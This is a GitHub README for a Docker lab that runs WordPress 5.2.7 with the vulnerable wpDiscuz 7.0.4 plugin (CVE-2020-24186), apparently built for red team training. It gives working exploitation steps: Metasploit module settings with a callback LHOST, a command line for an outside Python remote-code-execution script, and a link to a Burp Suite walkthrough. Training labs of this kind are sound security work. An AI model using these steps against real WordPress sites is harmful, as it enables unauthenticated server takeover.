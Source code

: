 # WordPress Lab

This is a WordPress Lab version 5.2.7 with a plugin vulnerables named WPdiscuz version 7.0.4 with al well know vulnerability CVE-2020-24186. The idea of this repo is to have created a web vulnerable used in Red Team labs or cyberexercises.



## Deploy web with Docker 

`docker-compose up`


## It is vulnerable? 

```curl http:/localhost:8080/wp-content/plugins/wpdiscuz/readme.txt | head -n 10```

Check de wpdiscuzz version


## Option A - with Metasploit

Web Post as sample: http://localhost:8080/2025/01/20/fake2/


```
$ msfconsole 

search CVE-2020-24186
use 0


set RHOSTS <IP HOST>
set RPORT 8080 # or a different port

set BLOGPATH /2025/01/20/fake2/

set LHOST  <IP Localhost HOST>

```


## Option B - Using a python script



We will be using this [script](https://github.com/hev0x/CVE-2020-24186-wpDiscuz-7.0.4-RCE/tree/main)

`python wpDiscuz_RemoteCodeExec.py -u http://<IP HOST>:8080/ -p /2025/01/20/fake2/`

## Option C - Burp Suite 

https://ine.com/blog/vulnerability-lab-wordpress-plugin-wpdiscuz-unauthenticated-rce
